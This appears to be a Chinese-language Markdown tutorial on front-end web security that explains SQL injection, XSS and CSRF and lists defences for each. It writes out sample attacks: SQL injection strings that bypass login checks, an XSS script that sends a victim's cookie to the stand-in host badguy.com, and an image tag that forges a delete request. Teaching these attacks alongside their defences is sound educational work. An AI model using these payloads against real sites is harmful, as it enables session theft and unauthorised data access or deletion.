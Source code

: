 #前端安全
> 攻击者主要是通过攻击获取用户信息，或者伪造用户操作达到特殊目的
> 首先关键数据的传输要进行加密处理，不能直接明文发送，以免被代理抓取
> 然后要对用户的输入内容做到充分的校验


##sql注入
> sql注入就是通过前端的请求将sql片段作为参数传入到后台，后台通过参数拼接出非预定sql
> 最终达到欺骗服务器执行恶意sql命令；

	例如下面这个请求
	order/list?id=100
	在服务器端会进行如下查询并返回结果
	SELECT * FROM orders WHERE id='100'
	我们的对请求地址做一个修改
	order/list?id=100'or'1'='1'
	那么执行的sql就变成了这个样子
	SELECT * FROM orders WHERE id='100' or '1'='1'
	所以全部数据都拿到了

	例如登录验证
	SELECT * FROM users where name='lee' and pwd='123456' and code='1234';
	我们随便输入一个用户名、密码留空，验证码输入 'or 1=1--
	SELECT * FROM users where name="xxx" and pwd="and code=" or 1=1--';
	这样随意输入一个用户名都可以登录成功

> sql注入的应对

1. 永远不要相信用户的输入
2. 也不要相信客户端的验证
3. 错误信息处理，不要把服务端的错误信息透露给用户
4. 不要使用管理员权限连接数据库
5. 敏感信息不要明文存储，要加密保存


##XSS
> 跨域脚本攻击(cross-site scripting)
> 主要用于获取用户信息
> 攻击原理是将用户的输入转化为了代码

攻击场景一 Dom-Based XSS

	// http://victim.com网站 后台代码
	<html>
	　　<title></title>
	　　<body>
	　　　　Results  for  <%Reequest.QueryString("term")%>
	　　　　...
	　　</body>
	</html>
	// 攻击
	// step1 建立后台用来偷取用户信息
	http://badguy.com
	// step2 发送恶意链接，可以通过邮件 qq等
	http://victim.com/search.asp?term=<script>window.open("http://badguy.com?cookie="+document.cookie)</script>
	// 这时只要用户点击这个连接，那么生成的页面中就包含可以指向的代码片段
	<script>window.open("http://badguy.com?cookie="+document.cookie)</script>
	// 这个代码自动运行把用户的cookie发送到了攻击者的网站


> 预防策略是对用户的输入做`encode`处理，将其中的`<`、`>`、`'`、`"`、`;`之类的特殊字符进行编码

1. 将重要的cookie标记为http only,   这样的话Javascript 中的document.cookie语句就不能获取到cookie了.
2. 只允许用户输入我们期望的数据。 例如：　年龄的textbox中，只允许用户输入数字。 而数字之外的字符都过滤掉。
3. 对数据进行Html Encode 处理
4. 过滤或移除特殊的Html标签， 例如: <script>, <iframe> ,  &lt; for <, &gt; for >, &quot for
5. 过滤JavaScript 事件的标签。例如 "onclick=", "onfocus" 等等。


##CSRF
> 跨站请求伪造(Cross-Sit-Request-Forgery)
> 主要用于伪造用户操作，向服务器发送自动请求

攻击场景

	// http://demo.com/list/delete?id=10
	// 此链接为用户网站删除列表数据请求，只做用户登录验证，
	// 那么我们可以在邮件中插入一张图片，
	<img src='http://demo.com/list/delete?id=10'/>
	// 那么只要用户点击这个连接，并且登录了该网站，那么这次攻击就成功了
	// 同样的利用img script iframe等不受同源限制的标签都可以实现CSRF攻击

> 预防CSRF

1. 使用POST请求代替GET请求
2. 检查报头中的Referer参数确保请求发自正确的网站（但XHR请求可调用setRequestHeader方法来修改Referer报头）；
3. 对于任何重要的请求都需要重新验证用户的身份；
4. 创建一个唯一的令牌（Token），将其存在服务端的session中及客户端的cookie中，对任何请求，都检查二者是否一致。



##参考文献
[Web安全测试之XSS](http://www.cnblogs.com/TankXiao/archive/2012/03/21/2337194.html)
[浅谈WEB安全性（前端向）](http://www.2cto.com/Article/201412/363743.html)